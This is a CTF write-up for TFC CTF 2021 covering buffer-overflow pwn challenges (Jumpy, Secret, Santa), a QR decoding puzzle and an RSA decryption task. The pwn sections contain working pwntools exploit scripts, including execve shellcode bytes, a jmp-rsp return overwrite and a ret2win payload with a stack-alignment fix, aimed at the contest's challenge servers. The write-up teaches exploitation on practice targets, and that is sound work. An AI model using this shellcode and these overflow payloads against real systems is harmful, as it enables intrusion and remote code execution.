


# TFC CTF 2021 Writeup

This article provides answer keys to the TFC CTF 2021 challenges.
<!--more-->

## Jumpy [Pwn]

Attached file:[here](/datas/jumpy)

Output of checksec

```sh
$ checksec jumpy
```


The NX is disabled so we can run on the stack.


Jumpy C code obtained by reverse engineering with ghidra.


In the binary, there is no system function and no function to read the flag. As the stack is executable, we can push shellcode on it and execute it.

First, we need to control the RIP.

I have placed a breakpoint on the ret of the main function.

With 0x38 we can reach the RIP.

For a test, I send this load: "A "*0x38 + "BBBB"


The RIP is well reached.

We can now execute our shellcode on the stack.

payload = "A "*0x38 + RSP_addr + shellcode

We will push the shellcode on the RSP and call the RSP address in the RIP to be able to execute the shellcode.

We don't have the address of the RSP but by doing a little research in the binary we have an instruction that makes a jump on the RSP, that will do the trick.


With the address of this instruction in the RIP, we can make a jump into the RSP and execute what is inside.


payload = "A"*0x38 + p64(0x00401142) + shellcode

Exploit:

```python
from pwn import *

sh = process("./jumpy")
#sh = remote("34.65.228.239",1337)
shellcode = b"\x31\xf6\x48\xbf\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdf\xf7\xe6\x04\x3b\x57\x54\x5f\x0f\x05"
payload = b"A"*0x38 + p64(0x00401142) + shellcode

print(sh.recv().decode())
sh.sendline(payload)
sh.interactive()
```
Result:




## Secret [Pwn]

Attached file:[here](datas/secret)


```python
from pwn import *

sh = process("./secret")
print(sh.recv().decode())
sh.sendline(p32(0xaabbccdd)*2)
print(sh.recvall().decode())
```
Result:


## Santa [Pwn]

Attached file:[here](datas/santa)

Output of checksec

```sh
$ checksec santa
```


The NX is enabled, so we can't run anything on the stack, but off the stack.

In this case, we will target the RSP.

Let's run the binary.


Santa's C code obtained by reverse engineering with ghidra.


I found a flag function.


Here, we will have to cause a buffer overflow and execute the code of the flag function but not on the stack.

To reach the RSP: "A" * 0x38 + "BBBBBBBB"

We can see that the RSP is reached.

We can now write our exploit to execute the flag function.

Address of flag function : 0x00401152

You can find it in gdb with the command :
```sh
info functions
```


Exploit:

```python
from pwn import *

#sh = remote("server.challenge.ctf.thefewchosen.com",1340)
sh = process("./santa")
payload = b"A"*(0x38) + p64(0x00401152)

print(sh.recv().decode())
sh.sendline(payload)
print(sh.recv().decode())
```
Result:


But there is a problem.

When I used it on the remote server, it did not work.

```
[*] Got EOF while reading in interactive
```
##### Movaps stack alignment

If you're segfaulting on a movaps instruction in buffered_vfprintf() or do_system() in the x86_64 challenges, then ensure the stack is 16-byte aligned before returning to GLIBC functions such as printf() or system()[Read more...](https://ropemporium.com/guide.html)

The solution is to call the ret of the other address one more time before calling the flag() function when designing the overflow stack, so that the rsp address can be reduced by 8.

I used the return address from init.
To find it: objdump santa -M intel --disassemble=_init



New exploit:


```python
from pwn import *

sh = remote("server.challenge.ctf.thefewchosen.com",1340)
#sh = process("./santa")
payload = b"A"*(0x38) + p64(0x00401016) + p64(0x00401152)

print(sh.recv().decode())
sh.sendline(payload)
print(sh.interactive())
```


## Weid friend [Misc]

Attached file:[here](datas/weird_friend.txt)

I use: [strong-qr-decoder](https://github.com/waidotto/strong-qr-decoder)
```python
c = open("weird_friend.txt").read().strip()
	flag,out = ('','')
	for i in c:
		flag += i
		if len(flag) == 29:
			out += flag+"\n"
			flag=""

	open("qr.txt","w").write(out)
```

Result:


## Am i doing it right? [Crypto]

Attached file:[here](datas/AM_I_DOING_IT_RIGHT.zip)

Premierly, I wanted to use RSACTFTOOL to find D but it did not work.


So I recover the N and the E with RSACTFTOOL.


I used some tools to retrieve the p, q and d but it does not work until i tried RSa-Cipher on [Dcode](https://www.dcode.fr/rsa-cipher)


And bingo, I have the p, q and d.

So I wrote a Python script to decrypted the chall.enc file.

```Python
from Crypto.Util.number import long_to_bytes,bytes_to_long

c = open("chall.enc","rb").read()
c = bytes_to_long(c)

n = 17729028558979019485846420034614601781855286885772116033115998289130663218793249135103097941406615594783564487056148202535602218241261076180277862184340050681277512936764254998557657989633659561175844653871375735119626199870178796372816549333367076487655787617921785826120525919291798195591267544750350222858119219959311035913906885739352404726672836723117136379411134589884489391116922923390687958161705756705708668649262568471831705504852664779788943978721769038284989250803324876493071615384204553854811020877754034576798208169454695001947778015807032019651748938505463608871771494765303144219873993106068807291321

e = 65537

d = 3500250248327349941672136790330322298173940781772211260089535710561387481696840724462501857940708289682233561164220235784490548878094466708830359320737536288891004163888989356033042963942046798938832323366063912548832619743354798758989171488234685790832327326369684099122228433857463369589017055427083655546629869448560863558252541573729181294198925126252806108158471450212498376272391643662951937867203907881541852521739527440641096867158947718038717211827677824862115138300242300421747601306316869658769565879739394458142873158790249493313154357342610957929927393333582078957693189916431285660748179207993771566093

m = pow(c,d,n)

print(long_to_bytes(m))
```

Result:


